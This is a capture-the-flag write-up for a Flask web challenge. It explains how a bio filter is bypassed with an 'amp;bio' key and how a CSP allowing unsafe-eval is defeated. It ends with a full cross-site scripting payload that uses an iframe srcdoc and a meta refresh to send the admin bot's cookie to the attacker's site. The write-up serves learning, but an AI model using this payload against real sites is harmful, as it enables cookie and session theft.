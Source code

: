 +++
title = "My Flask App Revenge"
date = 2025-07-06
authors = ["Abizer Lokhandwala"]
+++

### My Flask App Rev Writeup

First looking at all accesable endpoints in app.py

   1. /
   2. /register 
   3. /update_bio
   4. /login 
   5. /users 
   6. /api/users 
   7. /render 
   8. /report 

By breifly looking at all the functions and templates we can kind of guess a possible attack vector that is the bio we can inject some code into the bio and the bot will render it and execute the code  

Looking into all the functions in more detail the regiter and login parts work as intended there is nothing of interest there.  
The report is important with a get request we see that it just goes to a page with a form that sends a post req to itself.  
A post req creates a bot that just visits the /users?name={our input}.  
Visit is an import from bot.py it opens a headless chromium browser that logs in as admin and adds a cookie with the flag.  

It does have a lax samesitepolicy which means that we can access that cookie easily from a completely different website so our payload needs to just redirect the bot to out website and that can just take the cookie.  

So what is in /users?name={user}  
It renders user.html template  
Basically uses the scripts index and users  

#### Index.js (important sections):  
Sets window name to not admin other than that it seems to be normal and nothing seems interesting it is just a handler script takes forms and sends post requests.  

#### Users.js (important sections):  
Takes the name parameter fetches api/users?name={name} this makes an iframe with /render?all keys stored in the db associated with this user in the revenge part it url encodes & so that we cant have a key &bio to trick this.  
If window name is "admin" it takes the get param "js" and executes it.  

#### Api/users:  
It looks in the db for the user and gives all fields from the db except password and id.  

#### /Render:  
Loads the bio with |safe meaning it assumes the output will be safe and wont sanatize it this is vulnerable.  

From this our attack vector will be to inject some code into the bio section.  

#### /Update_bio:  
It only allows post req  
Takes username from session looks at the json payload sent and filters the "bio" key next it just add the payload to our db this is good it means we can do something like &bio or amp;bio and since in this stage the key is not "bio" it wont be filtered and so we can inject code. 

```py
data = request.json
    if "username" in data or "password" in data:
        return jsonify({"error": "Cannot update username or password"}), 400
    bio = data.get("bio", "")   
    if not bio or any(
        char not in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 "
        for char in bio
    ):
        return jsonify({"error": "Invalid bio"}), 400

    result = users_collection.update_one({"username": username}, {"$set": data})
    if result.matched_count > 0:
        return jsonify({"message": "Bio updated successfully"}), 200
    else:
        return jsonify({"error": "Failed to update bio"}), 500
``` 

Now crafting the payload we can send we know the key will be amp;bio but the csp will not allow us to execute js directly in the render page.  

#### CSP Setup:
```py
# set CSP header for all responses
@app.after_request
def set_csp(response):
    response.headers["Content-Security-Policy"] = (
        "default-src 'self'; script-src 'self' 'unsafe-eval'; style-src 'self' ;"
    )
    return response
```

So instead we must use the ?js param in the users.js page so our vulnerable entry point is /render and we want to somehow add out payload into a ?js parameter  

#### Users.js snippet:
```json
if(window.name=="admin"){
            js = urlParams.get('js');
            if(js){
                eval(js);
            }
            
    }
```

We can use the meta tag for this since it is not disabled in the csp.  

Srcdoc basicaly refers to this page itself if we add a meta tag to redirect to about:srcdoc?js=payload we can get cookie also we need to include the /users.js to the page we can also add that as a script tag.  
Note that the csp doesnt stop html tags and sources it just stops execution of js on out browser.  

### Final Payload:

```json
{ "bio":"a", "amp;bio":"<iframe name=admin src=about:srcdoc? srcdoc=\"<meta http-equiv=refresh content='1; url=about:srcdoc?js=top.location=`our site url`.concat(document.cookie);'><script src=/static/users.js?js=alert();></script>\">" }
```

Sending this as the payload to update bio and then reporting the user will get us the flag.

